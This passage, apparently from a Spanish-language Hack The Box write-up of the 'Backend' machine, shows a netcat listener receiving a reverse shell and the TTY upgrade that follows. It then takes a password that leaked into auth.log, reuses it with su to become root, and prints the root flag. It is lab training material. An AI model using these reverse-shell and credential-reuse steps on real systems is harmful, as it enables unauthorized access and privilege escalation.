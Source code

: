Gano acceso al sistema

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.161] 35152
bash: cannot set terminal process group (670): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

htb@backend:~/uhc$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

htb@backend:~/uhc$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
htb@backend:~/uhc$ export TERM=xterm-color
htb@backend:~/uhc$ export SHELL=bash
htb@backend:~/uhc$ stty rows 55 columns 209
htb@backend:~/uhc$ source ~/.bashrc 
```

En el archivo ```auth.log``` se lekea una contraseña

```null
tb@backend:~/uhc$ cat auth.log 
10/12/2023, 11:48:03 - Login Success for admin@htb.local
10/12/2023, 11:51:23 - Login Success for admin@htb.local
10/12/2023, 12:04:43 - Login Success for admin@htb.local
10/12/2023, 12:08:03 - Login Success for admin@htb.local
10/12/2023, 12:13:03 - Login Success for admin@htb.local
10/12/2023, 12:16:23 - Login Success for admin@htb.local
10/12/2023, 12:29:43 - Login Success for admin@htb.local
10/12/2023, 12:38:03 - Login Success for admin@htb.local
10/12/2023, 12:39:43 - Login Success for admin@htb.local
10/12/2023, 12:46:23 - Login Success for admin@htb.local
10/12/2023, 12:54:43 - Login Failure for Tr0ub4dor&3
10/12/2023, 12:56:18 - Login Success for admin@htb.local
10/12/2023, 12:56:23 - Login Success for admin@htb.local
10/12/2023, 12:56:43 - Login Success for admin@htb.local
10/12/2023, 12:58:03 - Login Success for admin@htb.local
10/12/2023, 13:03:03 - Login Success for admin@htb.local
10/12/2023, 13:09:43 - Login Success for admin@htb.local
10/12/2023, 13:35:37 - Login Failure for admin
10/12/2023, 13:41:53 - Login Failure for rubbx
10/12/2023, 13:42:21 - Login Success for rubbx@htb.local
10/12/2023, 13:56:15 - Login Success for rubbx@htb.local
10/12/2023, 14:08:17 - Login Success for admin@htb.local
```

Se reutiliza para el usuario ```root``` a nivel de sistema. Puedo ver la segunda flag

```null
htb@backend:~/uhc$ su root
Password: 
root@backend:/home/htb/uhc# cat /root/root.txt 
fd8d2d5069683846dab92a4c5522de48
```